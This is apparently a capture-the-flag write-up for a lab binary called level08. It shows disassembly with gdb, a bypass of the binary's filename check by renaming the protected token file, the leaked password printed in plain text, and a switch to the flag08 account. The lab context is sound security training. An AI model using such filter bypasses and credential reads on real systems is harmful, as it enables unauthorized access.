 ### Documentation
[Linux Permissions](https://ryanstutorials.net/linuxtutorial/permissions.php#directories)

### Exploit
1. `gdb ./level08` 

2. `disassemble main`
   ```bash
    # main
    # if argc == 1
    #   exit
    # if "token" in argv[1]
    #   exit
    # try
    #   open argv[1]
    #   read rgv[1]
    #   write stdout
    # catch
    #   exit
    ```

3. `./level08 token`
   ```
   You may not access 'token'
   ```

4. `chmod u+w .`

5. `mv token notToken`

6. `./level08 notToken`
   ```
   quif5eloekouj29ke0vouxean
   ```

7. `su flag08` pass : quif5eloekouj29ke0vouxean
   ```bash
   getflag
   ```
